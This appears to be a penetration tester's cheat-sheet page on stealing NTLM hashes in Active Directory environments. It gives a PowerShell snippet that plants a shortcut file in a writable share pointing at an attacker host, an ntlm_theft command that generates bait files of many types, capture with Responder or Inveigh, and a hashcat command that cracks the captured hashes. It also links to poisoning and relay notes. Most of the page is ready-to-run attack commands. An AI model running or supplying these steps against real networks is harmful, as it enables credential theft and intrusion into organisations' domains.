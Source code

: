```yaml
---
tags:
  - AD
---
```


## Theft Files
___
Any writable directory (shares, nfs, locally) where users will list contents you can use certain file types to steal hashes

**Manual: (.lnk)**

```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("\\DC01.domain.local\OpenShare\IT-Driver.lnk")
$lnk.TargetPath = "\\<AttackerIP>\@ico.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "IT Driver"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

**Automated (multi-type):**

[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

Generate all file types:

```shell-session
python3 ntlm_theft.py -g all -s <attackerIP> -f '@myfile'
```

Monitor for traffic with [Responder](https://github.com/SpiderLabs/Responder) on linux or [Inveigh](https://github.com/Kevin-Robertson/Inveigh) on windows. 
Hash received? Try to crack it
``` bash
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt
```

OR:  [Relay Attacks](Relay%20Attacks.md)


## Poisoning
___
- [LLMNR Poisoning](../2.%20Initial%20Compromise/LLMNR%20Poisoning.md)
- [IPv6 Attacks](../2.%20Initial%20Compromise/IPv6%20Attacks.md)

## Relaying
___
- [Relay Attacks](Relay%20Attacks.md)

## Misc Locations
___

- [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

